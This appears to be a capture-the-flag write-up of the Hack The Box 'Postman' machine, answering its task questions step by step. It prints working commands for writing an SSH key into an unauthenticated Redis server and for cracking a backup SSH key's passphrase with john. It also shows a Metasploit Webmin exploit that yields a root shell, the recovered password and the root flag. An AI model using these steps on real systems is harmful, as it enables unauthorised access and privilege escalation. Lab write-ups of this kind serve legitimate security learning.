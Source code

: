 ## Postman

### Lab Details 

- Difficulty: Easy
- Type: Redis, Webmin, SSH, Priv Esc, Linux

#### Tasks
Q1: What version of Redis is running on port 6379?
- run `nmap -sT -T4 -vv -A -p- -oA Postman target_ip`
```
6379/open/tcp//redis//Redis key-value store 4.0.9/
```

Q2: What is the config directory for redis?
- to find the config directory for redis firt need to connect to redis services 
`redis-cli -h target_ip`
- then locate the config directory by running below `config get dir` or `config get *` to get all configuration settings
```
10.10.10.160:6379> config get dir 
1) "dir"
2) "/var/lib/redis" -> this is the config directory 

10.10.10.160:6379> config get * 
...
##return a list of key-value pairs where each key is a configuration parameter and the corresponding value is its current setting.
1) "dbfilename"         #Key: Name of the RDB snapshot file
2) "dump.rdb"           #Value: Default filename
3) "requirepass"        #Key: Password for authentication
4) ""                   #Value: no password set  
5) "dir"                #Key: Directory for persistence files
6) "/var/lib/redis"     #Value: Default storage directory 
...
165) "dir"              #Key:  Working directory where Redis stores
166) "/var/lib/redis"   #Value: The directory where Redis saves its persistent data
...
```

Q3: As which user you can get code execution through Redis?
- since requirepass is no value which means anyone can access/modify data remotely 
- check if we can run whoami on redis remote by running `ACL whoami` however return error
```
10.10.10.160:6379> ACL whoami
(error) ERR unknown command 'ACL'
```
- check remote version
```
10.10.10.160:6379> info server
# Server
redis_version:4.0.9
```
- test if we have write permission over remote redis service 
``` 
10.10.10.160:6379> set test:write "hello world"
OK
```
- in the end i wasnt able to get the name from remote instance so i tried default and then redis and redis is the correct answer i think its might be due to the config location sometimes it can be at /home/redis and /home is where local user directory resides

Q4: What's the full path of an SSH backup key that redis can read?
- in order to read the path we will need to first gain the initial foodhold over the remote target
- we can exploit the lack of write restriction by uploading self generated public key to the remote target 
- below are lins to useful posts on how to perform such attack
  - https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419 - https://secybr.com/posts/redis-pentesting-best-practices/
- gist as per below
```
$: ssh-keygen -t rsa
$: (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
$: cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
$:  redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
- after uploading the public key to remote we can ssh in using the corresponding private key and user named redis
```
ssh -i id_rsa redis@target_ip
```
- we get a shell as redis
```
redis@Postman:~$ whoami
redis
```
- run linpeas.sh to gain more info on the target, we found `id_rsa.bak` for user Matt
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
- the last permission bit gives others rx access

Q5: What is the password for the SSH key?
- the private key requires password when `ssh -i id_rsa Matt@target_ip`
- therefore need to crack it, below is using john as hashcat does not support ssh hash type
```
$: ssh2john id_rsa > rsa.hash 
$: john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash 
...
computer2008     (id_rsa_matt)
```

Q6: Which user uses the same password as the one used to decrypt the SSH key?
 - Matt is the user as its owned by Matt

Q7: Submit the flag located in the Matt user's home directory.
- `cat /home/Matt/user.txt`

Q8: Which vulnerable version of Webmin is running on the machine?
- found theres `/usr/share/webmin/` directory on the machine and there is a version file in that directory 
- `cat version` -> 1.910 
```
╔══════════╣ Analyzing Postfix Files (limit 70)
...
drwxr-xr-x 5 root root 12288 Aug 25  2019 /usr/share/webmin/postfix
```


Q9: Which user does the Webmin instance run as?
- based on the output of linpeas.sh webmin is running as root 
```
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                            
                ╚════════════════════════════════════════════════╝                                            
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
...
root        724  0.0  3.1  90944 28832 ?        Ss   11:51   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...
```


Q10: Submit root flag
- use `linux/http/webmin_packageup_rce` module from msfconsole
- set SSL = True and rest of the info, username is Matt and password is computer2008
- will get a root shell back 
```
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
2b45ad724078db87b9cbb053aaa9ada5
```



#### Lesson Learned
- Learned how to compromise weakly configured redis server by using readily available info
- Using john to crack ssh private key passwords
